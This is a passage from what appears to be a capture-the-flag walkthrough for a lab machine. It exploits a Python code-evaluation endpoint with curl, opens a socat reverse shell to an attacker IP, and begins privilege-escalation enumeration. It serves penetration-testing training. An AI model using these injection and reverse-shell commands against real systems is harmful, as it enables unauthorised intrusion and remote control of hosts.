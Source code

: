 It seems that the `verify` option doesn't actually verify the code. In addition, the application performs evaluation:

```bash
kali@kali:~$ curl -X POST --data "code=2*2" http://192.168.120.36:50000/verify
4
```

### Exploitation

Knowing that this server is running `Python/3.6.8` (thanks to our `nmap` output), let's attempt to use the highly dangerous `os` module.

```bash
kali@kali:~$ curl -X POST --data "code=os" http://192.168.120.36:50000/verify
<module 'os' from '/usr/lib64/python3.6/os.py'>
```

The existence of this module all but guarantees we can get a shell. Let's set up a listener.

```bash
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
```

Next, we'll create a reverse shell connection.

```bash
kali@kali:~$ curl -X POST --data "code=os.system('socat TCP:192.168.118.8:18000 EXEC:sh')" http://192.168.120.36:50000/verify
```

Nice! We caught a reverse shell.

```bash
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.36] 44872
python3 -c 'import pty; pty.spawn("/bin/bash")'

[cmeeks@hetemit restjson_hetemit]$ whoami
cmeeks
```

### Escalation

#### Enumeration

As we enumerate the system, we'll search for writeable configuration files.

```bash
[cmeeks@hetemit restjson_hetemit]$ find /etc -type f -writable 2> /dev/null
find /etc -type f -writable 2> /dev/null
/etc/systemd/system/pythonapp.service
```

According to this, we can write to **pythonapp.service**, which appears to be some kind of system service. Next, we'll check our sudo permissions.

